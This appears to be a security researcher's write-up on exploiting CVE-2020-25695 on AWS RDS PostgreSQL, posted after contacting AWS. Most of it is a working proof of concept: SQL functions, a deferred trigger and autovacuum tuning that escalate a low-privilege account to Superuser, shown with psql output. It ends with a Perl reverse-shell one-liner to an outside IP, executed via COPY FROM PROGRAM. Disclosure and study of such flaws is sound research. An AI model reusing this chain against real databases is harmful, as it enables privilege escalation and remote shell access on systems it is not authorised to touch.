


# Abstract

The recent disclosure of [CVE-2020-25695](https://nvd.nist.gov/vuln/detail/CVE-2020-25695) by [staaldraad](https://gist.github.com/staaldraad/1325617885d42aa40777aa4774e91214) and the [excellent walkthrough](https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/) was possible to be exploited on [AWS Postgres RDS](https://aws.amazon.com/rds/postgresql/) to get a low privilege shell on the RDS underlying Operating System. As a managed service, RDS does not usually provide this kind of access and the underlying OS is a blackbox for AWS customers.

As of 2021-05-05 it was possible to spin up a new RDS with vulnerable PostgreSQL versions, and exploit CVE-2020-25695. It is not possible anymore to spin up a new RDS with a vulnerable PostreSQL version, and this article was published after contacting AWS Security team.

AWS Customers still running an outdated PostgreSQL version should consider an option to keep their DB engines updated from minor version to minor version [automatically](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_UpgradeDBInstance.PostgreSQL.html#USER_UpgradeDBInstance.PostgreSQL.Minor).

# PoC

In order to get the shell on the Linux host running Postgres RDS, the `poc2.sql` provided by [staaldraad](https://gist.github.com/staaldraad/1325617885d42aa40777aa4774e91214) only needs to be slightly modified. Especially in RDS context, customers are given a Postgres low privileged account, and the Superuser is ran by the user `rdsadmin`.

In this example, we created a new RDS running the lowest version possible as this date: `9.6.1`. Postgres 9.3 has a `COPY <table> FROM PROGRAM <cmd>` that is very useful to transform the Superuser privilege gained into a shell on the underlying OS. Additionally, the low privileged Postgres user we created through RDS console is `postgres`. Our aim is to use CVE-2020-25695 to have the `postgres` user as Superuser and use this privilege to get a shell.

The first part is pretty much following `poc2.sql`.

A new database is setup
```
psql -U postgres -d template1 -h <rds-name>.<region>.rds.amazonaws.com
Password for user postgres:
psql (13.2, server 9.6.1)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
Type "help" for help.

postgres@template1:5432=><rds-name>.<region>.rds.amazonaws.com CREATE DATABASE fooz;
CREATE DATABASE
postgres@template1:5432=><rds-name>.<region>.rds.amazonaws.com  \c fooz
psql (13.2, server 9.6.1)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
You are now connected to database "fooz" as user "postgres".
```

The tables are created
```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE TABLE t0 (s varchar);
CREATE TABLE
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE TABLE t1 (s varchar);
CREATE TABLE
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE TABLE exp (a int, b int);
CREATE TABLE
```

The functions to exploit the vulnerability are created. Here we change 2 things to follow our setup:

- we ALTER the user `postgres` to give it `SUPERUSER`
- we change the if with the RDS Superuser `rdsadmin`

```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql SECURITY INVOKER AS
'INSERT INTO fooz.public.t0 VALUES (current_user); SELECT $1';
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE INDEX indy ON exp (sfunc(a));
CREATE INDEX

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql SECURITY INVOKER AS
'INSERT INTO fooz.public.t1 VALUES (current_user); SELECT $1';
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION snfunc2(integer) RETURNS integer
   LANGUAGE sql SECURITY INVOKER AS
'INSERT INTO fooz.public.t1 VALUES (current_user);
ALTER USER postgres SUPERUSER; -- our user postgres is altered here
SELECT $1';
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION strig() RETURNS trigger
AS $e$
BEGIN
IF current_user = 'rdsadmin' THEN -- the rdsadmin user is checked here
    PERFORM fooz.public.snfunc2(1000); RETURN NEW;
ELSE
    PERFORM fooz.public.snfunc(1000); RETURN NEW;
END IF;
END $e$
LANGUAGE plpgsql;
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED FOR EACH ROW
    EXECUTE PROCEDURE strig();
CREATE TRIGGER

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com ALTER TABLE exp SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com ALTER TABLE exp SET (autovacuum_analyze_threshold = 1);
ALTER TABLE
```

Time to trigger the exploit, leveraging the `autovaccum` setup.
```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com \du postgres
                        List of roles
 Role name |          Attributes           |    Member of
-----------+-------------------------------+-----------------
 postgres  | Create role, Create DB       +| {rds_superuser}
           | Password valid until infinity |

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com INSERT INTO exp VALUES (1,1),(2,3),(4,5),(6,7),(8,9);
INSERT 0 5

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com DELETE FROM exp;
DELETE 5

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com INSERT INTO exp VALUES (1,1);
INSERT 0 1

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com \du postgres
                          List of roles
 Role name |            Attributes             |    Member of
-----------+-----------------------------------+-----------------
 postgres  | Superuser, Create role, Create DB+| {rds_superuser}
           | Password valid until infinity     |
```

Now CVE-2020-25695 is exploited and our `postgres` user has `Superuser` privilege, we can leverage it to gain a shell using the `FROM PROGRAM` Postgres feature.
Here the [dollar-quote](https://www.postgresql.org/docs/current/sql-syntax-lexical.html#SQL-SYNTAX-DOLLAR-QUOTING) `$$` is used for the command not to be mangled by quotes.
```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com  CREATE TABLE cmd (s varchar);
CREATE TABLE

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com COPY cmd FROM PROGRAM $$perl -e 'use Socket;$i="1.2.3.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'$$;
```



Finally we can explore the processes and host running Postgres RDS.


